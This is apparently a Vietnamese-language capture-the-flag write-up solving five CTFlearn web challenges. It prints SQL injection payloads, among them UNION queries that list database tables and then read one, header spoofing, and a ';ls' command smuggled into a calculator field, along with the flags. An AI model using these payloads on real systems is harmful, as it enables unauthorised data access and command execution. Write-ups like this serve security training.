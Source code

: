 <!-- markdownlint-disable MD033 MD041 MD024-->
<p align="center">
<a href="https://ctflearn.com/"><img alt="https://ctflearn.com/" src="images/logo.png" width="90" height="90"></a>
</p>
<!-- markdownlint-enable MD033 -->

# CTFLEARN

## Basic Injection

See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)

Don't know where to begin? Check out CTFlearn's [SQL Injection Lab](https://ctflearn.com/lab/sql-injection-part-1)

### Solution

Vào thử thách, chúng ta có một trang web sau:

![image](images/basic-injection/image-1.png)

Có thể thấy đây là một thử thách liên quan tới lỗ hổng SQL Injection. Và chúng ta sẽ lấy flag thành công với một payload cơ bản `' OR 1=1#`:

![image](images/basic-injection/image-2.png)

### Flag

`CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`

## POST Practice

> This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate?
>
> <http://165.227.106.113/post.php>

### Solution

Truy cập vào URL được cung cấp, chúng ta có trang web sau:

![image](images/post-practice/image-1.png)

Xem HTML source code, chúng ta có thông tin đăng nhập `admin:71urlkufpsdnlkadsf`:

![image](images/post-practice/image-2.png)

Vào `/robots.txt`, chúng ta thấy `/70r3hnanldfspufdsoifnlds.html` được chỉ định:

![image](images/post-practice/image-3.png)

Truy cập vào `/70r3hnanldfspufdsoifnlds.html`, chúng ta thấy flag. Tuy nhiên, đó là fake flag:

![image](images/post-practice/image-4.png)

Vậy để lấy flag, chúng ta sẽ gửi thông tin đăng nhập thông qua POST request sử dụng lệnh `curl`:

```text
$ curl -d "username=admin&password=71urlkufpsdnlkadsf" http://165.227.106.113/post.php 
<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```

### Flag

`flag{p0st_d4t4_4ll_d4y}`

## Don't Bump Your Head(er)

> Try to bypass my security measure on this site! <http://165.227.106.113/header.php>

### Solution

Vào thử thách, trang web bảo chúng ta không thể truy cập vì sai user agent:

![image](images/dont-bump-your-header/image-1.png)

Khi xem HTML source code, chúng ta thấy chuỗi `Sup3rS3cr3tAg3nt` được chỉ định trong comment:

![image](images/dont-bump-your-header/image-2.png)

Sử dụng Burp Repeater để gửi request, chúng ta đổi giá trị của header `User-Agent` thành `Sup3rS3cr3tAg3nt`. Tiếp tục thấy bảo chúng ta không đến từ `awesomesauce.com`:

![image](images/dont-bump-your-header/image-3.png)

Vậy có thể hiểu server yêu cầu chúng ta cung cấp header `Referer` với giá trị `awesomesauce.com`. Thêm header vào và gửi request, chúng ta lụm được flag:

![image](images/dont-bump-your-header/image-4.png)

### Flag

`flag{did_this_m3ss_with_y0ur_h34d}`

## Inj3ction Time

> I stumbled upon this website: <http://web.ctflearn.com/web8/> and I think they have the flag in their somewhere. UNION might be a helpful command

### Solution

Chúng ta lại có một thử thách liên quan tới lỗ hổng SQL Injection:

![image](images/inj3ction-time/image-1.png)

Với payload dưới, chúng ta xác định được câu truy vấn gốc lấy ra 4 cột:

```sql
123 UNION SELECT null,null,null,null#`
```

![image](images/inj3ction-time/image-2.png)

Chúng ta chắc chắn rằng server sử dụng MySQL với payload:

```sql
123 UNION SELECT @@version,null,null,null#
```

![image](images/inj3ction-time/image-3.png)

![image](images/inj3ction-time/image-4.png)

Do đó, chúng ta dùng payload dưới để tìm ra các bảng tồn tại trong database hiện tại:

```sql
123 UNION SELECT table_name,null,null,null FROM information_schema.tables WHERE table_schema=database()#
```

Có 2 bảng là `w0w_y0u_f0und_m3` và `webeight`, chúng ta chú ý tới bảng `w0w_y0u_f0und_m3`:

![image](images/inj3ction-time/image-5.png)

Tiếp theo là cần tìm ra tên cột để có thể lấy dữ liệu, chúng ta sẽ dùng payload:

```sql
123 UNION SELECT column_name,null,null,null FROM information_schema.columns#
```

Chúng ta thấy có cột `f0und_m3`:

![image](images/inj3ction-time/image-6.png)

Đã biết được tên cột, công việc cuối cùng là đọc flag:

```sql
123 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3#
```

![image](images/inj3ction-time/image-7.png)

### Flag

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`

## Calculat3 M3

> Here! <http://web.ctflearn.com/web7/> I forget how we were doing those calculations, but something tells me it was pretty insecure.

### Solution

Vào URL của thử thách, chúng ta có một trang web cho phép dùng máy tính như sau:

![image](images/calculat3-m3/image-1.png)

Chúng ta có thể nhấn các số và thực hiện tính toán:

![image](images/calculat3-m3/image-2.png)

Nhận được kết quả khi nhấn "=":

![image](images/calculat3-m3/image-3.png)

Bên dưới là POST request khi chúng ta thực hiện phép tính:

![image](images/calculat3-m3/image-4.png)

Có thể thấy biểu thức được truyền vào tham số `expression`. Chúng ta kiểm tra với payload khai thác lỗ hổng OS Command Injection `;ls` sẽ thấy được flag:

![image](images/calculat3-m3/image-5.png)

### Flag

`ctf{watch_0ut_f0r_th3_m0ng00s3}`
